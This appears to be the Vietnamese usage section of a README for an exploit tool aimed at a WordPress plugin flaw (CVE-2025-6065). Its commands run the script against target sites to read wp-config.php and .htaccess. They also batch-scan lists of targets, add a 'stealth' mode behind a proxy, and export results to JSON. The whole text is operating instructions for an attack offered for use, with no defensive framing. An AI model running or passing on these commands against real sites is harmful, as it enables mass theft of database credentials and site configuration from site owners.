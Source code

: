 🧪 Cách sử dụng cơ bản:
python3 exploit_cve_2025_6065.py --url https://target.com --cmd wp-config.php
🔍 Chế độ kiểm tra plugin:
python3 exploit_cve_2025_6065.py --url https://target.com --check-only
📂 Chế độ batch scan:
python3 exploit_cve_2025_6065.py --file targets.txt --cmd wp-config.php
targets.txt ví dụ:
https://target1.com
http://target2.com
🕵️‍♂️ Chế độ stealth + Proxy:
python3 exploit_cve_2025_6065.py --url https://target.com --cmd .htaccess --stealth --proxy http://127.0.0.1:8080
🧾 Xuất kết quả ra JSON:
python3 exploit_cve_2025_6065.py --file targets.txt --cmd wp-config.php --json-output result.json
